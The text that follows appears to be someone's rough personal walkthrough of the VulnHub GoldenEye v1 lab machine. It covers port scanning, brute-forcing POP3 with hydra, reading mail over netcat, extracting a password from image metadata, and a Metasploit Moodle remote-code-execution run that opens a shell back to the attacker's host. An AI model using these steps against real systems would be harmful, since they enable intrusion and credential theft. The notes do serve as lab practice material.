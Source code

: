 ```yaml
---
{"tags":["vulnhub","walkthrought"],"dg-publish":true,"permalink":"/exploit-from-kali/golden-eye-vulnerability/","dgPassFrontmatter":true,"noteIcon":""}
---
```


	
	Goldenn eye v1 passthrough
	
	PORT      STATE SERVICE
	25/tcp    open  smtp
	80/tcp    open  http
	55006/tcp open  unknown
	55007/tcp open  unknown
	
	encoded password -InvincibleHack3r
	
	user	password
	boris	secret1!
	natalya	bird   
	xenia  RCP90rulez!
	doak 	goat
	username: dr_doak
	password: 4England!
	hash 	eFdpbnRlcjE5OTV4IQ==
	admin  xWinter1995x!
	
	arp
	sudo netdiscover
	./nmapAutomator.sh 192.168.0.199 All
	192.168.0.199/terminal.js
	brup pro
	decoder option 
	&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;
	
	InvincibleHack3r
	
	user	password
	boris	InvincibleHack3r
	http://192.168.0.199/sev-home/
	
	nc 192.168.0.199 55006
	LIST
	
	user boris
	pass secret1
	
	http://severnaya-station.com/gnocertdir
	mozilla proxy or host name
	
	sudo nano /etc/hosts
	192.168.0.199                 severnaya-station.com/gnocertdir
	
	WEBPAGE 
	VIEW PAGE SOURCE  INNSPECT 
	
	INDEX.JS
	telnet 192.168.0.199 55007
	
	sudo apt install hydra
	
	sudo apt install wordlists
	
	hydra -l boris -P /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt 192.168.0.199 -s 55007 pop3
	
	nc 192.168.0.199 55007
	user boris
	pass secret1
	LIST
	+OK 3 messages:
	1 544
	2 373
	3 921
	RETR 1
	RETR 2
	RETR 3
	
	
	hydra -l doak -P /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt 192.168.0.199 -s 55007 pop3
	
	nc 192.168.0.199 55007
	user doak
	pass secret1
	LIST
	+OK 3 messages:
	1 544
	2 373
	3 921
	RETR 1
	RETR 2
	RETR 3
	http://severnaya-station.com/gnocertdir
	username: dr_doak
	password: 4England!
	
	search   s3cret .txt
	http://severnaya-station.com/dir007key/for-007.jpg
	save file
	sudo apt install exiftool
	exiftool for-007.jpg 
	search image discription >>>>> eFdpbnRlcjE5OTV4IQ==
	https://www.base64decode.org/
	eFdpbnRlcjE5OTV4IQ==
	      decode
	xWinter1995x!
	
	http://severnaya-station.com/
	admin  xWinter1995x
	site administration>Plugins>Text editor>manage editor>
	Pspellshell
	search google pspell shell exploit
	
	msfconsole
	search moodle
	use exploit/multi/http/moodle_spelling_path_rce
	choose zero
	show info
	options
	set PASSWORD xWinter1995x!
	set RHOSTS severnaya-station.com
	set targeturi /gnocertdir
	set LHOST 192.168.0.181
	control l key press
	options
	run
	https://github.com/jseidl/GoldenEye
	service tor start
	
	sudo apt-get install etherape
	sudo etherape